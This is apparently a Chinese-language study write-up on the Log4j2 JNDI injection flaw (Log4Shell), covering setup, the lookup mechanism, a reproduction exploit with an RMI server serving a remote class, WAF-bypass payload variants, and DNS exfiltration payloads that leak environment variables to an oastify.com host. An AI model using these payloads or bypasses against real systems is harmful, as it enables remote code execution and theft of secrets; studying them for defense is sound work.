




# Log4j2漏洞

## Log4j2基础开发学习

### 环境配置

- jdk8u65

- Log4j2 2.14.1

- CC 3.2.1 (最好是)

---

### 代码实现

log4j 和 log4j2 都是日志管理工具，相比于 log4j，log4j2 一步步变得越来越主流，现在市场很很多的项目都是 slf4j + log4j2

这里先实现一个简单的Log4j2的组件应用

先引入依赖，pom.xml

```
<dependency>  
 <groupId>org.apache.logging.log4j</groupId>  
 <artifactId>log4j-core</artifactId>  
 <version>2.14.1</version>  
</dependency>   
<dependency>  
 <groupId>org.apache.logging.log4j</groupId>  
 <artifactId>log4j-api</artifactId>  
 <version>2.14.1</version>  
</dependency>  
<dependency>  
 <groupId>junit</groupId>  
 <artifactId>junit</artifactId>  
 <version>4.12</version>  
 <scope>test</scope>  
</dependency>
```

log4j2 的一些实现方式 ，有xml、yaml、properties等多种方式

这里用xml简单实现

```
<?xml version="1.0" encoding="UTF-8"?>  

<configuration status="info">    
 <Properties>  
 <Property name="pattern1">[%-5p] %d %c - %m%n</Property>  
 <Property name="pattern2">  
 =========================================%n 日志级别：%p%n 日志时间：%d%n 所属类名：%c%n 所属线程：%t%n 日志信息：%m%n  
        </Property>  
 <Property name="filePath">logs/myLog.log</Property>  
 </Properties>  
 <appenders> <Console name="Console" target="SYSTEM_OUT">  
 <PatternLayout pattern="${pattern1}"/>  
 </Console> <RollingFile name="RollingFile" fileName="${filePath}"  
 filePattern="logs/$${date:yyyy-MM}/app-%d{MM-dd-yyyy}-%i.log.gz">  
 <PatternLayout pattern="${pattern2}"/>  
 <SizeBasedTriggeringPolicy size="5 MB"/>  
 </RollingFile> 
	</appenders> 
	<loggers> 
		<root level="info">  
 <appender-ref ref="Console"/>  
 <appender-ref ref="RollingFile"/>  
 </root> 
</loggers>
</configuration>
```

然后写一个 demo

```
package org.mixbp;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.function.LongFunction;

public class Log4j2Test01 {
    public static void main( String[] args )
    {
        Logger logger = LogManager.getLogger(LongFunction.class);
        logger.trace("trace level");
        logger.debug("debug level");
        logger.info("info level");
        logger.warn("warn level");
        logger.error("error level");
        logger.fatal("fatal level");
    }
}
```



---

### 实际开发场景

上面的代码是封装的行为，一般的日志文件是需要输出的

实际应用的时候，比如从数据库中获取到了一个username，然后要把它登录进来的信息打印到日志里面，路径一般有一个 /logs 的文件夹

```
package org.mixbp;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.function.LongFunction;

public class RealEnv {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(LongFunction.class);

        String username = "mixbp";
        if (username != null) {
            logger.info("User {} login in!", username);
        }
        else {
            logger.error("User {} not exists", username);
        }
    }
}
```



这里只是简单模拟一下实际场景，具体还是没有这么简单的。

---

## Log4j漏洞分析

### 影响版本

2.x <= log4j <= 2.15.0-rc1

### 漏洞原理

可以看到这里的username是可控的

```
package org.mixbp;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.function.LongFunction;

public class RealEnv {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(LongFunction.class);

        String username = "${java:os}";
        if (username != null) {
            logger.info("User {} login in!", username);
        }
        else {
            logger.error("User {} not exists", username);
        }
    }
}
```

将 username 修改为 `String username = "${java:os}";`

然后运行发现并没有打印原文，而是操作系统的一些信息



查看官方文档说这是 log4j2 自带的一个功能。



主要的原因是因为Log4j2 在打印日志时，会自动解析日志内容中 `${}` 包裹的占位符，执行对应查找器取值：

- `${sys:user.name}`：读取系统变量
- `${env:PATH}`：读取环境变量
- **`${jndi:ldap://xxx/exploit}`**：JNDI 查找器（高危入口）

所以只要用户可控输入被打印进日志，攻击者就能传入带 `${jndi:}` 字符串，触发 JNDI 解析。

这里会一路调用到 lookup ，这里的lookup是原生的 `lookup()` 方法，是基于 jndi 的，存在漏洞，所以会导致jndi注入

---

## 漏洞复现&EXP

EXP

```
package org.mixbp;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import java.util.function.LongFunction;

public class Log4j2exp {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(LongFunction.class);

        String username = "${jndi:rmi://127.0.0.1:1099/remoteObj}";

        logger.info("User {} login in!", username);
    }
}
```

然后这里需要开启RMIServer

```
package org.mixbp;

import javax.naming.InitialContext;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIRMIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        Registry registry = LocateRegistry.createRegistry(1099);
        // RMI
        // initialContext.rebind("rmi://localhost:1099/remoteObj", new RemoteObjImpl()); // JNDI 注入漏洞
        Reference reference = new Reference("Calc","Calc","http://localhost:7777/");
        initialContext.rebind("rmi://localhost:1099/remoteObj", reference);
    }
}
```

成功弹出计算器

---

## 调试分析（略）

调试直接略过了

大概就是

1. 先判断内容中是否有`${}`，然后截取`${}`中的内容，得到我们的恶意payload `jndi:xxx`
2. 后使用`:`分割payload，通过前缀来判断使用何种解析器去`lookup`
3. 支持的前缀包括 `date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j`，后续我们的绕过可能会用到这些。

最后就是会走到常规的jndi注入点

```
initialContext.lookup("rmi://localhost:1099/remoteObj");
```

所以最后还是因为原生RMI的问题导致的漏洞

---

## WAF绕过

### 利用分隔符和`${}` 绕过

根据官方文档中的描述，如果参数未定义，那么 `:-` 后面的就是默认值

```
logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");
```

---

### 通过 lower 和 upper 绕过

允许的字段

`date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j`，其中有 lower 和 upper

可以利用 lower 和 upper 来进行 bypass 关键字

```
logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");
....
```

也可以利用一些特殊字符的大小写转化的问题

```
ı => upper => i (Java 中测试可行)

ſ => upper => S (Java 中测试可行)

İ => upper => i (Java 中测试不可行)

K => upper => k (Java 中测试不可行)
```

```
logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");
...
```

 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过

```
{"key":"\u0024\u007b"}
{"key":"\x24\u007b"}
```

---

### payload总结

- 原始payload

```
${jndi:ldap://127.0.0.1:7777/ExportObject}
```

对应的绕过手段

```
${${a:-j}ndi:ldap://127.0.0.1:1234/ExportObject};
  
${${a:-j}n${::-d}i:ldap://127.0.0.1:1234/ExportObject}";
  
${${lower:jn}di:ldap://127.0.0.1:1234/ExportObject}";
  
${${lower:${upper:jn}}di:ldap://127.0.0.1:1234/ExportObject}";
  
${${lower:${upper:jn}}${::-di}:ldap://127.0.0.1:1234/ExportObject}";
```

---

配合DNS外带读取敏感信息

通过`sys`和`env`协议，结合`jndi`可以读取到一些环境变量和系统变量

例如：

```
${jndi:ldap://${env:LOGNAME}.1hj2a0litb8gvybwuy1m16vj8ae02p.oastify.com}、


${jndi:dns://xxxxx:8090/${java:version}}
```


